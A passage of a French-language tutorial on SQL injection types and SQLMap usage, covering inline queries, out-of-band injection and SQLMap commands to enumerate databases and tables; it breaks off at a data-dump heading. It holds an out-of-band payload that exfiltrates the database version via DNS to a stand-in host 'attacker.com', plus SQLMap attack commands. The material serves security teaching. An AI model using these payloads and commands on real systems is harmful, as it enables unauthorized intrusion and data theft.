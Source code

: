 #### <mark style="color:green;">6.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Inline Queries**</mark> <mark style="color:green;"></mark><mark style="color:green;">(Requêtes intégrées)</mark>

* Exemple : `SELECT (SELECT @@version) from`
* Permet d'insérer une sous-requête dans une requête principale.
* Rarement utilisée mais supportée par SQLMap.

***

#### <mark style="color:green;">7.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Out-of-band SQL Injection**</mark> <mark style="color:green;"></mark><mark style="color:green;">(Injection hors bande)</mark>

* Exemple : `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`
* Utilise des canaux secondaires comme le DNS ou HTTP pour exfiltrer des données.
* Méthode avancée utilisée dans des cas spécifiques (e.g., DNS exfiltration).

***

### <mark style="color:blue;">**Exemple d'utilisation de SQLMap**</mark>&#x20;

```bash
python sqlmap.py -u 'http://example.com/page.php?id=5'
```

* **Options courantes** :
  * `-u` : Spécifie l'URL cible.
  * `--dbs` : Liste les bases de données disponibles.
  * `--tables` : Liste les tables d'une base spécifique.
  * `--columns` : Affiche les colonnes d'une table.
  * `--dump` : Extrait les données.

***

### <mark style="color:blue;">**Exploitation d'injections SQL avec SQLMap**</mark>

#### Exemple 1 : Énumération des bases de données

```bash
sqlmap -u 'http://example.com/page.php?id=5' --dbs
```

#### Exemple 2 : Extraction d'une table spécifique

```bash
sqlmap -u 'http://example.com/page.php?id=5' -D database_name --tables
```

#### Exemple 3 : Dump des données

